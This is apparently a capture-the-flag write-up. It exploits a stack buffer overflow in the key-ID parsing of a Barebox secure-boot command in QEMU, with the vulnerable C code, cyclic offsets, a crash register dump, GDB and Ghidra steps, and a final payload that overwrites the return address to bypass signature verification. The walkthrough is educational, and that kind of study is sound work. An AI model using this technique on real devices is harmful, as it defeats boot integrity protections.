








# BreizhBoot #3

## Tl;Dr
breizhsecboot Barebox Command → Buffer Overflow in Key ID → Overwrite Return Address to Return 0 and Bypass Secure Boot Check

1. Identify a buffer overflow (BoF) vulnerability in key ID parsing.
2. Craft a payload to trigger the overflow and determine the offset using the cyclic utility.
3. Attach GDB to QEMU and set a breakpoint in the vulnerable function.
4. DDump QEMU's memory.
5. Analyze the memory dump in Ghidra to find a way to force the function to return 0.
6. Create a controlled overflow payload that overwrites the return address register.

Hint:
- **No ASLR:** Since this is a bootloader exploit, Address Space Layout Randomization (ASLR) is not present.
- **Consistent Memory Addresses:** Remote addresses match local ones because the setup is identical, and there is no randomness involved.
- **No Stack Protection:** Stack smashing protection is disabled, making exploitation straightforward.


## Background

This challenge was orinally inspired by `CVE-2017-7932` (Stack-based buffer overflow in the X.509 certificate parser), discovered by Quarkslab in NXP i.MX microprocessors. It has then been simplified and re-focused on exploiting a similar vulnerability in the Barebox bootloader.

## Detailled walkthrough


1. Identify BoF in key id parsing

```c
#define MAX_BUFF_SIZE 256
...
char buff[MAX_BUFF_SIZE] = {0};
int fd = open(file_path, O_RDONLY);
uint32_t len_key_id;
...
// len_key_id
read(fd, &len_key_id, 4);
...
// key_id
buff[read(fd, buff, len_key_id)] = '\0';
```

In this snippet of code, you can see that the key_id's lenght depends on another stored variable and the lenght isn't checked to be inferior to MAX_BUFF_SIZE. It's a classic BoF!


2. Craft a payload to trigger overflow and identify offset with cyclic utility

We identified the overflow, but how to trigger it?

The opened file is in fact a public key coded in a custom format. Hopefully, the format is 1. given in the source code; 2. a given python code can convert a given `PEM` RSA-1024 private key into this format.

Basically the format is the follwing:
```python
f.write(b"BZH.CERT") # magic bytes :)
f.write(struct.pack("<Q", e))  # rsa_pub_exponent (8 bytes)
f.write(struct.pack("<I", n0inv))  # rsa_n0inv (4 bytes)
f.write(struct.pack("<32I", *rr))  # rsa_rr (128 bytes)
f.write(struct.pack("<32I", *rsa_pub_modulus))  # rsa_pub_modulus (128 bytes)
f.write(struct.pack("<I", len(KEY_ID))) # len_key_id (4 bytes)
f.write(KEY_ID)
```

We can forge our payload by modifying `convert-pem-to-breizhcertificate.py`:
- Remove `assert len(key_id) < 256, "Key id too long."` because the mitigation for the overflow is implemented in python, only *(not C...)*
- Use cyclic

`python3 convert-pem-to-breizhcertificate.py private.pem pubkey.breizhcertificate $(cyclic 500)`

We can see that the board crashes, but, it shows a register dump *(so neat)*!

```text
mounted /dev/virtioblk0 on /mnt/virtioblk0
[VERBOSE] &parse_pubkey=0000000092751244
using key: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraae 
Unhandled exception: 1 "Instruction access fault"
E [<6461616964616168>] ra: [<6461616964616168>] tval: 6461616964616168

sp:  00000000929ff5c0 gp:  0000000000000000 tp:  0000000000000000
t0:  00000000929ff519 t1:  6561617665616175 t2:  6561616465616163
s0:  6461616764616166 s1:  6461616564616164 a0:  0000000000000000
a1:  000000000000000a a2:  0000000000000000 a3:  fffffffffffffffe
a4:  0000000000000000 a5:  00000000927bdf60 a6:  0000000000000020
a7:  00000000929ff550 s2:  6461616364616162 s3:  6461617a63616179
s4:  6361617863616177 s5:  6361617663616175 s6:  6361617463616173
s7:  6361617263616171 s8:  000000008958af18 s9:  00000000929ff8e0
s10: 000000008958bda0 s11: 0000000000000000 t3:  6561616665616165
t4:  6561616865616167 t5:  6561616a65616169 t6:  00000000929ff794
### ERROR ### Please RESET the board ###
```

```
cyclic -l 0x6461616964616168 # ra/return address register        
328
```

We can get two informations out of this launch:
- we overwrite ra register at offset 328
- parse_pubkey address is `0x0000000092751244`, so we can debug and put a break-point on it! 

*Note that there is no ASLR as we are in barebox bootloader, and it doesn't have that capacity (or I didn't activate it lol).*

You might be tempted digging into `barebox-dt-2nd.img` to extract compiled code and craft a payload bypassing secure-boot. But barebox compresses the final image. So it becomes way harder to extract relevant information out of the raw binary. So we will use a funny trick: extract RAM out of the running qemu!


3. Attach GDB to Qemu and set a break point in the vulnerable function

We now want to debug what is happening, and also extract the board's RAM. We can use the following commands to place a breakpoint into `parse_pubkey` (so we are sure everything is loaded into memory).

*Note that in this challenge we give the address of `parse_pubkey` to the player in order to speed up the solving process, in reality, all barebox's code is loaded into RAM, and clear strings can be found in program's memory. So there is absolutly no need for this leak! (remember, no aslr too)*

```sh
qemu-system-riscv64 -M virt -serial stdio -kernel barebox/images/barebox-dt-2nd.img -drive file=fitImage-disk.img,format=raw,id=hd0 -device virtio-blk-device,drive=hd0 -drive file=flag.img,format=raw,media=disk,id=hd1 -device virtio-blk-device,drive=hd1 -m 300M -s -S

gdb-multiarch -q --nh -ex 'set architecture riscv:rv64' -ex 'target remote localhost:1234' -ex 'source ~/Documents/Tools/pwndbg/gdbinit.py'

# In gdb
b * 0x0000000092751244
c
```

4. Dump memory of Qemu


Like I said earlier, we want to dump board's RAM. For that, we can use qemu-console. This might be tricky if you run qemu inside of the docker. But using a nix-env with correct qemu version you can achieve it (or diretcly on your host computer).

In qemu console we execute: `dump-guest-memory ram.dump`





5. Analyse memory dump in Ghidra and identify a way to `return 0`

Now we can analyse that dump!
```sh
file ram.dump 
ram.dump: ELF 64-bit LSB core file, UCB RISC-V, soft-float ABI, version 1 (SYSV), SVR4-style
```

[Ghidra](https://ghidra-sre.org/) is a powerful tool! It can open this large RAM dump (~210Mb) and decompile functions automatically! 

*Note: you might have to change permissions on the file, because default is `0400` and ghidra want write access.)*





So, in ghidra search for the given function (`parse_pubkey`), the fasted way is to search by address because we now its address: `FUN_92751244`.





We can verify it's our function `parse_pubkey` based on the strings:





Well, now we have everything in hand, what do we want to do?

In a classical pwn challenge, you may want to do something like `execve("/bin/sh", NULL, NULL)`. But here, things are differents! We don't really care about having a shell, we care about bypassing secure-boot. For that, we want our program to `return 0`:

```sh
...
breizhsecboot /mnt/virtioblk0/fitImage /mnt/virtioblk0/signature.bin /mnt/virtioblk0/pubkey.breizhcertificate
RES=$?
echo "Result is: $RES"

if [ $RES -ne 0 ]; then
    echo -e "${RED}Update script integrity check failed! Powering off...${RESET}"
    poweroff
fi

echo "Wp! Now we boot :)"
...
```

A second thing to know (or to observe in the given C code) is that barebox doesn't use classical binary files in a file system for implementing its commands.


```c
/* Register the breizhsecboot command with the Barebox command infrastructure */
BAREBOX_CMD_START(breizhsecboot)
    .cmd        = do_breizhsecboot,
    BAREBOX_CMD_DESC("breizhsecboot <fitImage_path> <signature_path> <cert_path>")
    BAREBOX_CMD_GROUP(CMD_GRP_MISC)
    BAREBOX_CMD_HELP("Verify FIT image using RSA secure boot")
BAREBOX_CMD_END
```

There is no main in the code, and you have to register your command using `BAREBOX_CMD_START` and `do_breizhsecboot`.

So basically you could jump into other commands' code! But here it would be completly overkill.


As said earlier, we want to make `breizhsecboot` command return `0`. So we will overwrite `ra` register with the part of the code responsible to `exit` and `return 0` in the classical workflow of the app. Thus skipping public-key sha256 verification against fuses and also signature verification.


In ghidra, we check for references to the `parse_pubkey` function (`FUN_92751244`). We are then looking at `do_breizhsecboot` decompiled code and we click on the `return 0`.

The procedure that implements programs' exit is the following:





6. Craft a payload with controlled overflow that overwrites the return address register

Like we did earlier with cyclic, we can edit `convert-pem-to-breizhcertificate.py` to craft our payload.


```python
...
PAYLOAD = cyclic(328)+p64(0x92751604)
...
generate_pubkey(args.input_pem, args.output_bin, PAYLOAD)
```

*(also remove `.encode()` because we give bytes here)*





Err.. Our result isn't zero, as expected.

But wait!
```
>>> hex(1684103524)
'0x64616164'

cyclic -l 0x64616164 
312
```

This means, our result code is taken from a register we overflowed. And so, we can edit it!

This gives us the final payload:

312 bytes of padding, then result code, then 8 bytes padding and then the return address
`PAYLOAD = cyclic(312)+p64(0)+p64(0)+p64(0x92751604)`








## Other useful commands


**Key generation:**

```
# Gen keys
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:1024
# Sign image
openssl dgst -sha256 -sign private.pem -out signature.bin fitImage
# Convert to BreizhCertificate
python3 convert-pem-to-breizhcertificate.py private.pem pubkey.breizhcertificate <String Key identifier>
```


**Disk creation:**

```
dd if=/dev/zero of=fitImage-disk.img bs=1M count=10
mkdir -p fs
mkfs.vfat fitImage-disk.img
sudo mount -o loop fitImage-disk.img fs/

sudo cp fitImage fs/
sudo cp signature.bin fs/
sudo cp pubkey.breizhcertificate fs/

sudo umount fs/
```

**-> result**
 
```
.rwxr-xr-x  8,5M root  5 mars  22:20  fitImage
.rwxr-xr-x   290 root  5 mars  22:31  pubkey.breizhcertificate
.rwxr-xr-x   128 root  5 mars  22:31  signature.bin
```